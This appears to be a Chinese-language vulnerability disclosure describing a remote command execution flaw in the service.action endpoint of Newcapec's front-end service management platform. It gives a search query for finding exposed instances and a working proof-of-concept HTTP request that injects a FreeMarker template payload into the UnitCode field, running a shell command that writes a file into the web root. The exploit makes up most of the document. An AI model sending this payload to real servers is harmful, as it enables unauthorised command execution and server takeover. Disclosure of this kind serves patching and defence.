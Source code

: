 # 新开普 前置服务管理平台 service.action 远程命令执行漏洞

# 新开普 前置服务管理平台 service.action 远程命令执行漏洞

## 漏洞描述

新开普 前置服务管理平台 service.action 接口存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

新开普 前置服务管理平台

## 网络测绘

```
title="掌上校园服务管理平台"
```

## 漏洞复现

登陆页面

![image-20230828112934396](images/image-20230828112934396.png)

验证POC

```
POST /service_transport/service.action HTTP/1.1
Host: 
Accept: */*
Content-Type: application/json

{"command":"GetFZinfo","UnitCode":"<#assign ex = \"freemarker.template.utility.Execute\"?new()>${ex(\"cmd /c echo Test > ./webapps/ROOT/Test.txt\")}"}
```

![image-20230828112953699](images/image-20230828112953699.png)

![image-20230828113009271](images/image-20230828113009271.png)

